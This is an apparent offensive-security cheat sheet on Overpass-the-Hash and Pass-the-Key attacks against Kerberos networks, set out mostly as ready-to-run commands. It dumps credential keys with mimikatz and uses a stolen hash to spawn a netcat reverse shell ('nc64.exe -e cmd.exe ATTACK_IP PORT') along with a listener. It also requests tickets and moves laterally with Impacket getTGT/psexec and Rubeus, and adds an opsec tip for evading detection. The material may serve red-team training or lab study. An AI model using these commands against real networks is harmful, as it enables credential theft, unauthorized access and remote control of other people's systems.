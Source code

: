 ## Similar to PtH but applied to kerberos networks.

### The Overpass The Hash/Pass The Key (PTK) attack is designed for environments where the traditional NTLM protocol is restricted, and Kerberos authentication takes precedence. This attack leverages the NTLM hash or AES keys of a user to solicit Kerberos tickets, enabling unauthorized access to resources within a network.

### To execute this attack, the initial step involves acquiring the NTLM hash or password of the targeted user's account. Upon securing this information, a Ticket Granting Ticket (TGT) for the account can be obtained, allowing the attacker to access services or machines to which the user has permissions.

### If we have any of those keys (DES,RC4,AES128,AES256) we can ask the KDC for a TGT without requiring the actual password. (Pass-the-Key)

#### privilege::debug

#### sekurlsa::ekeys

#### sekurlsa::pth /user:Administrator /domain:DOMAIN /rc4:KEY /run:"c:\tools\nc64.exe -e cmd.exe ATTACK_IP PORT"

#### /aes128:KEY can also be used instead 

#### /aes256:KEY can also be used instead 

#### nc -lvp PORT

## Alternate Method: Impacket getTGT

 - python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7

 - export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache

 - python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass

## Alternate Method: Rubeus

 - .\Rubeus.exe asktgt /domain:jurassic.park /user:velociraptor /rc4:2a3de7fe356ee524cc9f3d579f2e0aa7 /ptt

 - .\PsExec.exe -accepteula \\labwws02.jurassic.park cmd

 - .\Rubeus.exe asktgt /user:<USERNAME> /domain:<DOMAIN> /aes256:HASH /nowrap /opsec (Use AES256 for better opsec)
